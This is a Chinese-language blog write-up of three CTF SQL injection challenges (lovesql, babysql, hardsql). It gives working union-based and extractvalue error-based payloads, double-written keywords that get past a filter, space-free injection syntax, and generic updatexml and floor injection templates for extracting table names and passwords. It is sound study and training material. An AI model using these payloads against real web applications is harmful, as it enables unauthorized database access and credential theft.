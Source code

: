 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(一)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-01             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


> 以下为做完题之后的整理，对于个人来说为了形成一个测试流程习惯

## 0x00：堆叠注入-lovesql
首先进入页面，发现有两个输入框，分别对于用户名和密码加上单引号测试闭合。  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekjmd8ewj30kx0d20xo.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjdkyzuj30i905574a.jpg)  
报错点在密码处，首先尝试最简单的联合注入查询，通过select 语句探询字段数以及观察回显字段。  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdekmavozaj30hr0atgol.jpg)  
发现在第三个字段回显信息，那个我们可以利用以下语句找到flag。
` 123' union select 1,2,concat(database())#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmi7h0aj30ej0ao41e.jpg)  
` 123' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmdqsw5j30hs06xac2.jpg)  
` 123' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklt62lnj30hw067dho.jpg)  
` 123' union select 1,2,group_concat(password) from l0ve1ysq1#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklq9wxpj30ho0aiq5f.jpg)  
找到flag，copy下来就容易看出了。  
总结一下：该sqli没有过滤，在使用联合查询注入这个简单注入时没有受到阻拦，使用group_concat是为了将整个字段的内容连接起来避免遗漏，
使用到了mysql特性数据库information_schema库，本次练习旨在提高熟悉程度以及小知识点的巩固。

## 0x01绕过简单规则-babysql
首先进入页面，依旧测试注入点，依旧和上述一样，用户密码为不同的输入，都加上单引号测试闭合以及注入点，这里就暂时不放上来了。   
测试一下联合注入：`123' union select 1,2,3#`  
报错回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklmrmqpj30c103t742.jpg)  
仔细一看，我们的union和select去哪了？？？？原来过滤规则将union、select替换为空字符，可以猜测敏感词都会替换为空，分析一下，用户的输入会经过一次遍历，查找到危险词汇就会替换为空。
由之前学习得知，双写这些词，就可以绕过：`123' uniunionon seleselectct 1,2,3#` 
成功回显：
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklj3x8jj30ej0afgoo.jpg)  
那么我们就来fuzz一下，看看哪些词会被替换成空，打开burp，接下来就是载入自己的sql字典遍历一下看一看：
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdeklg1hjcj30t10epabv.jpg)  
这就知道了哪些词汇会被替换，我们要使用的时候直接双写！！！
由于步骤和以上一样，就简单记录一下payload，不放图了（有点懒哈哈哈哈）  
` 123' uniunionon seleselectct 1,2,concat(database())#`  
` 123' uniunionon seleselectct 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#`  
` 123' uniunionon seleselectct 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#`  
` 123' uniunionon seleselectct 1,2,group_concat(passwoorrd) frfromom b4bsql#`  
总结一下：该题目添加了简单的过滤规则，输入比较容易绕过的类型，此处我使用了burp去遍历过滤词，便于后续的payload构造，此处依旧是联合注入，还是比较简单的一道题目。

## 0x02hardsql
首先进入页面，依旧开始测试注入点，还是和之前一样，密码为注入点，单引号闭合，#没有过滤，接着测试联合注入，页面响应为：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekl09bgxj30px0budkt.jpg)  
有过滤规则，统一了错误页面，那么开始测试哪些sql用词被过滤，依旧打开burp，遍历过滤词：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkx4c9vj30s90gi767.jpg)  
可以看到过滤了空格、等号这些偏符号的都过滤了，联合注入也不能使用了，尝试堆叠注入，由于堆叠注入的使用条件非常有限，我们测试一下看看：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkstgcij30md08qdhf.jpg)  
可以看出这大概是不行的了，没法执行多条语句。接下来剩下报错注入和盲注，先尝试报错注入，所用到的所有词都没有过滤，由于这里空格被过滤了，用其他符号来代替完成：  
`123'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekkpz8qdj30b705vgmg.jpg)  
报错信息回显，利用xpath错误回显我们需要的信息,那么就是说我们报错注入是成功的，接下来构造相关语句：
`123'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekkmqoczj30ba06fq3y.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjvam81j30dg08d40d.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekjrvog0j30f205tt9v.jpg)  
咦，这个时候只显示了一半，搜索了一下，发现extractvalue和updatexml这两个常用的报错注入函数能查询的字符串最大长度为32，在显示内容过多时，可用截取函数substr或者left，right来截取或者使用concat函数的参数位置调换以此获取前后信息。  
这里我们就利用left或者right来尝试一下  
`123'^extractvalue(1,concat(0x7e,(select(right((password),30))from(H4rDsq1)),0x7e))#`    
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjpb7p0j30ib07fdhu.jpg)  
这个时候我们拼接一下就完成了，这里总结以下：题目存在统一错误页面而且有错误信息回显，报错注入有一些会使用函数参数来返回错误信息，这一题使用到的是extractvalue，同类型的还有updatexml，都是利用xpath报错返回信息。    
通过ExtractValue报错,注入语句如下:
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`  
通过UpdateXml报错,注入语句如下:
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`   
拓展一下经常看见的双查询：
通过floor报错,注入语句如下:
`and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);`这个报错查询主要是利用主键重复产生错误信息来回显。















